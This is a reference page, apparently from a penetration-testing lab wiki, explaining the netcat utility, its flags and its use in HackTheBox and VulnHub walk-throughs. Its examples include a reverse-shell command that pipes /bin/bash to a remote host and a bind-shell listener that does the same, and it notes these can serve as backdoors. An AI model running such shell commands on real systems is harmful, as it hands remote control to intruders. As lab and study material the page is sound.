 .. _netcat:

Netcat: The Network Swiss-Army Knife
====================================

.. index:: !netcat

+-----------+--------------------------------------+
|**OS**     | All major operating systems.         |
+-----------+--------------------------------------+
|**Website**| https://nc110.sourceforge.io/        |
+-----------+--------------------------------------+

+------------+---------------------------------------------------+
|                  **Reference  Walk-Throughs**                  |
+============+===================================================+
|`HackTheBox`|:ref:`Lame <Lame Exploitation>`                    |
+------------+---------------------------------------------------+
|`VulnHub`   |:ref:`Kioptrix Level 1 <Kioptrix Lv1 Samba>`       |
+------------+---------------------------------------------------+

+----------+------------------------------------+
| See Also |:ref:`Netcat Shells <Netcat Shells>`|
+----------+------------------------------------+


What is netcat?
---------------
From the `homepage <https://nc110.sourceforge.io/>`_:

  `Netcat` is a simple Unix utility which reads and writes data across network connections, using TCP or UDP protocol.

While `netcat` might sound like a simple utility (it is), it is useful for an incredibly broad variety of network applications. For this reason, it has become an essential part of every hacker's toolkit.

`Netcat` was originally written for Unix-like systems. However, it has been ported to pretty much every OS on the planet.


How does it work?
-----------------
`Netcat` establishes raw TCP and UDP connections and allows you to interact with those connections manually (via standard input and output) or via scripts. Where most similar utilities (such as `telnet`) terminate the connection upon receipt of an "End-of-File" (EOF) byte, `netcat` instead keeps the connection open, transmitting and receiving data until the connection is broken by the network (or manually closed).

`Netcat` can also act as a server, binding to a specific port and listening for incoming connections. It can be scripted or accessed manually, regardless of whether it's used as client or server.


Using netcat
------------
To use `netcat`, simply type ``nc`` on the command line, along with whatever arguments you wish to pass. Examples:

.. code-block:: none

    nc -vnlp 6666
    nc google.com 80
    nc -vn -w 3 10.10.10.3 6200
    nc -nlp 6666 -e /bin/bash

At a minimum, `netcat` requires an IP and port number when running as a client, or a port number when running as a server.


``-e``: Pipe an Executable
~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -e /bin/bash 10.10.14.15 6666``

The ``-e`` flag tells `netcat` to bind the specified executable to the established network connection. Incoming data from the network is sent to the executable's standard input, and standard output is sent back over the network. This functionality can be used to establish backdoors in systems, among other actions. This is why the ``-e`` flag is commonly referred to as the "gaping security hole" in `netcat`, despite working exactly as intended.

.. note::

   Most modern OSes ship with a modified version of `netcat` with the ``-e`` option disabled, so as to close the "gaping security hole." However, even with these altered versions, `netcat` can be used as a backdoor; it just takes a little more effort.


``-l`` and ``-p``: Bind and Listen on Port
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -lp 6666``

Using the ``-l`` flag tells `netcat` to bind and listen on the port specified by the ``-p`` flag.

.. note::

   On most OSes, ports 0 through 1023 are reserved for privileged services, and require administrative privileges before they can be bound. If you wish to use `netcat` on one of these ports, you'll need to do so as a privileged user (such as ``root``).


``-n``: Skip DNS Name Resolution
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -n 10.10.10.3 21``

When `netcat` establishes a connection to a remote system, it may attempt to perform DNS resolution for the provided host name. When providing an IP, you can skip this name resolution by using the ``-n`` flag.


``-v``: Verbose Output
~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -v 10.10.10.3 6200``

Typically, the only output `netcat` provides is the output sent from the network. The ``-v`` flag tells `netcat` to provide more verbose output, including data about the status of the connection. It can be helpful for understanding more about what's going on behind the scenes.


``-w``: Close Connection After Time-Out
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
**Example:** ``nc -v -w3 10.10.10.3 6200``

After establishing a connection, `netcat` will leave the connection open for as long as you allow it to run, or until the network closes the connection. This can be troublesome when you want `netcat` to close when data is no longer being sent.

In order to close a `netcat` connection automatically, you can specify a time-out value using the ``-w`` flag, which tells `netcat` how long to wait before closing an inactive connection.
